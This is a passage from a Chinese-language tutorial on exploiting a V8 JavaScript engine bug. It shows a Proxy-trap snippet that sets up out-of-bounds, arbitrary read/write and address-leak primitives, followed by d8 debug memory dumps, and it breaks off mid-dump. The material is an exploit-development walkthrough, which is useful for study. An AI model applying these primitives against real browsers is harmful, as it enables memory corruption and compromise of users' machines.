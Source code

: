 
成功实现任意地址写，读操作

地址泄露
----

除了任意地址读写之外，我们还需要一个地址泄露原语来寻找合适的地址写入，在 Proxy 中放置一个对象即可构造 addr_of。

```
let p = new Proxy(Object, {
    get: () => {
        vuln_array[0] = {};                 // 修改之后的类型是HOLEY_ELEMENTS
        oob_array = [1.1];                  // 修改此数组的length来达到oob
        uint64_arw = new BigUint64Array(2); // 实现任意地址读写
        obj_leaker = {
            a: 0xc00c,
            b: oob_array,
        };                                  // 实现地址泄露
        %DebugPrint(oob_array);
        //%DebugPrint(uint64_arw);
        %DebugPrint(obj_leaker);
        %SystemBreak();
        return Object.prototype;
    }
});


```

看一下内存布局：

```
DebugPrint: 0000009D0808811D: [JSArray]
 - map: 0x009d08241891 <Map(PACKED_DOUBLE_ELEMENTS)> [FastProperties]
 - prototype: 0x009d08208dcd <JSArray[0]>
 - elements: 0x009d0808810d <FixedDoubleArray[1]> [PACKED_DOUBLE_ELEMENTS]
 - length: 1
 - properties: 0x009d080406e9 <FixedArray[0]> {
    #length: 0x009d08180165 <AccessorInfo> (const accessor descriptor)
 }
 - elements: 0x009d0808810d <FixedDoubleArray[1]> {
           0: 1.1
 }
0000009D08241891: [Map]
 - type: JS_ARRAY_TYPE
 - instance size: 16
 - inobject properties: 0
 - elements kind: PACKED_DOUBLE_ELEMENTS
 - unused property fields: 0
 - enum length: invalid
 - back pointer: 0x009d08241869 <Map(HOLEY_SMI_ELEMENTS)>
 - prototype_validity cell: 0x009d08180451 <Cell value= 1>
 - instance descriptors #1: 0x009d08209455 <DescriptorArray[1]>
 - transitions #1: 0x009d082094a1 <TransitionArray[4]>Transition array #1:
     0x009d08042eb9 <Symbol: (elements_transition_symbol)>: (transition to HOLEY_DOUBLE_ELEMENTS) -> 0x009d082418b9 <Map(HOLEY_DOUBLE_ELEMENTS)>

 - prototype: 0x009d08208dcd <JSArray[0]>
 - constructor: 0x009d08208ca1 <JSFunction Array (sfi = 0000009D08188E41)>
 - dependent code: 0x009d080401ed <Other heap object (WEAK_FIXED_ARRAY_TYPE)>
 - construction counter: 0

DebugPrint: 0000009D080881B9: [JS_OBJECT_TYPE]
 - map: 0x009d08244ba9 <Map(HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x009d08200f99 <Object map = 0000009D082401C1>
 - elements: 0x009d080406e9 <FixedArray[0]> [HOLEY_ELEMENTS]
 - properties: 0x009d080406e9 <FixedArray[0]> {
```